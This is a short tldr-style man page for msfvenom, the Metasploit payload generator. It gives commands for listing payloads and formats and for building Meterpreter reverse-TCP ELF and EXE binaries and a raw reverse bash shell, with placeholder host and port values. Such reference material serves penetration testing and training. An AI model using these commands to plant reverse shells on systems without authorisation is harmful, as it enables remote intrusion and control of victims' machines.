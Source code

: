 .TH msfvenom
.PP
.RS
Manually generate payloads for metasploit.
More information: \[la]https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom\[ra]\&.
.RE
.RS
.IP \(bu 2
List payloads:
.RE
.PP
\fB\fCmsfvenom \-l payloads\fR
.RS
.IP \(bu 2
List formats:
.RE
.PP
\fB\fCmsfvenom \-l formats\fR
.RS
.IP \(bu 2
Show payload options:
.RE
.PP
\fB\fCmsfvenom \-p {{payload}} \-\-list\-options\fR
.RS
.IP \(bu 2
Create an ELF binary with a reverse TCP handler:
.RE
.PP
\fB\fCmsfvenom \-p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} \-f elf \-o {{path/to/binary}}\fR
.RS
.IP \(bu 2
Create an EXE binary with a reverse TCP handler:
.RE
.PP
\fB\fCmsfvenom \-p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} \-f exe \-o {{path/to/binary.exe}}\fR
.RS
.IP \(bu 2
Create a raw bash with a reverse TCP handler:
.RE
.PP
\fB\fCmsfvenom \-p cmd/unix/reverse_bash LHOST={{local_ip}} LPORT={{local_port}} \-f raw\fR
